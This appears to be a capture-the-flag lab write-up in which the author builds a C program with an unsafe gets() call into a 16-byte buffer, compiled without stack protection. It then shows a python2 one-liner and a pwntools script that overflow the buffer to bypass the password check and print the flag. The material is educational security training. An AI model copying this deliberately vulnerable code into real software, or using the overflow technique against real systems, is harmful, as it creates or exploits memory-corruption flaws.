 ```yaml
---
description: 08/15/2023
---
```


# 1⃣ 01

This is an entirely custom project that I am extremely proud of. It consists of us overwriting variables on the stack in order to bypass compares so that you can grab the flag without even having the right password.

> Can you find the password?
>
> How can you get the flag without using the correct password?

## Static Source Code Analysis

```c
#include <stdio.h>
#include <string.h>

const char* hacked()
{
    const char* local_flag = {"XYC{H0wD1d1G3tH3r3?!}"};

    printf("This is a secret function.\n");
    printf("Access level 0 is required. All attempts to access will be logged.\n");
    printf("Oh yeah, here's your flag: %s\n", local_flag);

    return local_flag;

}

char * flag = "XYC{H0wD1d1G3tH3r3?!}";

int main()
{

    char code[16];
    int access = 0;

    printf("Please enter the secret code: \n");
    gets(code);
    fflush(stdout);

    if(strcmp(code, "1337") == 0)
    {
        flag = hacked();

        access = 1;
    }

    else
    {
        printf("Access denied, silent alarm has been triggered!\n");
    }

    if(access)
    {
        printf("Authentication successful as root (access level=%d) \n", access);
        printf("You are root, granting access... \nAccess granted, welcome root.\n");
        printf("Wow, you realized we could overflow the buffer and you could still get the flag? Nice.\nHere's your flag: %s", flag);
    }

    else
    {
        printf("Authentication failed as root (access level=%d)\n", access);
    }

    return 0;

}
```

Compile:

```
gcc 01.c -o 01 -m32 -fno-stack-protector -z execstack -no-pie -g
```

We can see that we have a `hacked()` function which contains our flag. Notice the return of `local_flag`.

We can also see that our flag is being set as a global so it can be accessed through main and passed throughout the program.&#x20;

Also, be conscious of the dangerous `gets()` call again, as we remember why this is dangerous from our last example in [00](00.md).&#x20;

Our `strcmp()` is being compared to our input to our buffer (`code`) which is of **16-bytes** and is looking for the correct input of "**1337**" so that we can access our secret function.

If we can input the password correctly, we will be granted access to the secret function.&#x20;

If not, we will trigger the alarm.

## Exploitation

### Manual Method

python2:

```
python2 -c 'print "A" * 17' > payload
```

Exploit:

```
./01 < payload
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Automated Method (pwntools)

exploit.py:

```python
from pwn import *

# Establish the connection to the program
p = process('./01')  # Change this to the actual path of the '01' program

context.log_level = 'debug'

# Wait for the ':' prompt
p.recvuntil(':')

# Send 17 bytes of 'A' characters
payload = b'A' * 17
p.sendline(payload)

# Print the program's output
print(p.recvall().decode())

# Close the connection
p.close()
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## `gdb`

We can see our payload of A's overwriting our variables on the stack so we can bypass the comparisons/checks and get straight into the right version of our `hacked()` function that we want.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We never inputed the correct password of "1337":

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>
